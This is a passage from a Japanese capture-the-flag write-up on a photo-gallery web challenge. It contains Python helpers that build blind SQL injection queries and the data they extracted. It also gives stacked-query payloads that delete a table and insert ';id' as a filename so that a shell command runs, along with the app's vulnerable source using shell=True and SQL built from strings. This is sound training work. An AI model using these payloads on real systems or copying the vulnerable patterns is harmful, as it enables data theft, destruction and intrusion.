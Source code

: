 ```python
column3 = "parent"

def create_length_query(md,times):
    query = " AND if(length((select concat("+column1+",0x3a,"+column2+",0x3a,"+column3+") from " + database + "." + table + " limit " +str(times) + ",1)) >= " + str(md) + ",1=1,1=3)#"
    #print(query)
    return query

def create_2tansaku_query(md,i,times):
    query = " AND if(ascii(substr((select concat("+column1+",0x3a,"+column2+",0x3a,"+column3+") from " + database + "." + table + " limit " +str(times) +",1)," +str(i) + ",1)) >= " + str(md) + ",1=1,1=3)#"
    #print(query)
    return query
```
このInvisibleがフラグらしい……。（FLAG形式じゃないやないか…（怒））  
```txt
[-] exploit finished
Utterly adorable:files/adorable.jpg:1
Purrfect:files/purrfect.jpg:1
Invisible:b92cc0e5d5c3269??????????92036b499674:1
```
### flag2 (Stack query / OS Command Injection)
`printenv`で環境変数を見ればいいらしい。  
flag0でゲットしたソースは以下の通り。`subprocess.check_output('du -ch %s `でphotosテーブルのfilenameの名前を`du`コマンドに結合しており、OS Command Injectionが可能である！  
ここには外部からの入力を入れる場所はないが、今は任意のSQLを実行できる状態なので、Stack Query型で任意のfilenameの名前にすればInject可能！  
`DELETE from photos;commit;`でphotosテーブルを削除する。`commit`でトランザクションを完了しないと、DELETEしたことにならないので必ず`commit`をつけないとダメ！  
`INSERT INTO photos (title, filename,parent) VALUES (';id', ';id',1); commit;`で任意の名前のデータを挿入する。`id`カラムは勝手についてくれるので残りの`title`,`filename`,`parent`を指定する。  

```python
@app.route('/')
def index():
    cur = getDb().cursor()
    cur.execute('SELECT id, title FROM albums')
    albums = list(cur.fetchall())
    rep = ''
    for id, title in albums:
        rep += '<h2>%s</h2>\n' % sanitize(title)
        rep += '<div>'
        cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))
        fns = []
        for pid, ptitle, pfn in cur.fetchall():
            rep += '<div><img src="fetch?id=%i" width="266" height="150"><br>%s</div>' % (pid, sanitize(ptitle))
            fns.append(pfn)
        rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
        rep += '</div>\n'
    return home.replace('$ALBUMS$', rep)
@app.route('/fetch')
def fetch():
    cur = getDb().cursor()
    if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
        abort(404)
    # It's dangerous to go alone, take this:
    # ^FLAG^hehehehe$FLAG$
    return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()
if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```